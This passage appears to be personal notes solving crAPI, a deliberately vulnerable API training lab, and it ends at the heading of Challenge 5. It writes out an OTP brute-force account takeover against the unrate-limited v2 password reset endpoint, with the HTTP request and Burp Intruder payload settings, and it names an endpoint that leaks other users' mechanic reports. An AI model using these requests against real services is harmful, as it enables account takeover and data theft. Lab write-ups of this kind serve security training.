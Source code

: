 ### [  ] Challenge 3 - Reset the password of a different user

* Find an email address of another user on crAPI

* Experiment with password reset

* Discover that the pw reset times is limmited on the v3 api, but not v2
  ```http
  POST /identity/api/auth/v3/check-otp
  Host: crapi.apisec.ai
  ```
<br>
  
So do a pw reset OTP brute force to take over someone elses acct.
Send the req to Intruder, payload positions
```http
POST /identity/api/auth/v2/check-otp HTTP/1.1
Host: crapi.apisec.ai
...
{"email":"victimsemail@test.com","otp":"§0000§","password":"Passw0rd!"}

```

Then set the position as sniper, and the Payload sets as:
- Number
- From: 0000
- to: 9999
- step: 1

  Number format: decimal
  min integer: 4
  max int:     4

Then attack

<br>


## Excessive Data Exposure

### [  ] Challenge 4 - Find an API endpoint that leaks sensitive information of other users

That's the mechanic report endpoit from previous challenge
```http
GET /workshop/api/mechanic/mechanic_report?report_id=31 HTTP/1.1
Host: crapi.apisec.ai
```



### Challenge 5 - Find an API endpoint that leaks an internal property of a video &
<br>
